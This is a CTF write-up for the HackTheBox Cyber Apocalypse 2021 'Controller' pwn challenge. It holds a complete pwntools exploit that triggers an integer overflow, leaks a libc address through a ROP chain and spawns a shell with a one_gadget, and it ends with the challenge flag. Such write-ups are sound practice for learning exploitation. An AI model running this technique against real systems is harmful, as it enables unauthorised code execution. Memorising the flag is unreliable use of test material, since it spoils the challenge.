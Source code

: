 ```yaml
---
name: Controller (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Controller (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Controller

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/6DRuT1JBmBE/0.jpg)](https://youtu.be/6DRuT1JBmBE?t=30s "HTB Cyber Apocalypse CTF 2021: Controller")

## Challenge Description

> The extraterrestrials have a special controller in order to manage and use our resources wisely, in order to produce state of the art technology gadgets and weapons for them. If we gain access to the controller's server, we can make them drain the minimum amount of resources or even stop them completeley. Take action fast!

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Perform subtraction of two negatives to get +65338
def calc(p):
    p.sendlineafter(': ', '-65338')
    p.sendline('-130676')
    p.sendlineafter('>', '2')

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './controller'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Swap between local and remote libc
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = 40

# Start program
io = start()

# Generate 65338 in calculator
calc(io)

# Leak got.puts using ROP object
rop = ROP(elf)
rop.puts(elf.got.puts)
rop.calculator()

# Send the payload
io.sendlineafter('>', flat({offset: rop.chain()}))
io.recvline()

# Get our leaked got.write address and format it
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Set the libc_base_addr using the offsets
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Generate 65338 in calculator
calc(io)

# Send the payload - one_gadget
io.sendlineafter('>', flat({offset: libc.address + 0x4f3d5}))

# Got Shell?
io.interactive()
```

Flag: `CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}`
